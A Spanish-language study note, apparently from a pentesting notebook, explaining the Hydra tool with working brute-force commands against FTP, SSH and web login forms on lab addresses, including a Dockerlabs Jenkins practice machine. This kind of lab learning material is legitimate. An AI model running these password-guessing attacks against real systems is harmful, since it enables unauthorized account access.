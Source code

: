 Es una herramienta para fuzzear como [[ffuf]]

Su funcionamiento es básico pero depende de lo que se requiera fuzzear.

En el siguiente ejemplo se muestra como se utiliza para fuzzear un servicio [[ftp]]:

```hydra -l user -P passlist.txt ftp://10.10.15.223 -t 64 -F```

Si se quiere realizar fuerza bruta a un servicio [[ssh]] es necesario el siguiente comando (-t hace referencia al número de hilos):

```hydra -l root -P passlist.txt 10.10.15.223 -t 4 ssh```

## Login Form

También si se quiere realizar fuerza bruta a un formulario se puede realizar de las dos siguientes formas siendo la primera en el puerto por defecto que te brinda la web o la segunda en un puerto en específico:

Es importante también revisar si es un http-post-form, https-post-form, etc en la inspección de la web.

```sudo hydra -l <USER> -P <WORDLIST> 10.10.15.223 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V```

```
hydra -l admin -P /home/quino/Maquinas_hack/Dockerlabs.es/Strongjenkins/dict.txt 172.17.0.2 -s 8080 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Login:Invalid username or password" -v
```

- /: Hace referencia en que página se encuentra el login form.
- username: el campo (dentro del html) donde se ingresará el usuario.
- ^USER^: Hace referencia al valor que se le asignará.
- password:  el campo (dentro del html) donde se ingresará el usuario.
- ^PASS^: Hace referencia al valor que se le asignará.
- F=incorrect: Es la sentencia que entregará el servidor cuando el formulario falle

Si se tiene alguna duda consultar la siguiente web para fuerza bruta de login forms:

https://www.manrajbansal.com/post/how-to-use-hydra-to-brute-force-login-forms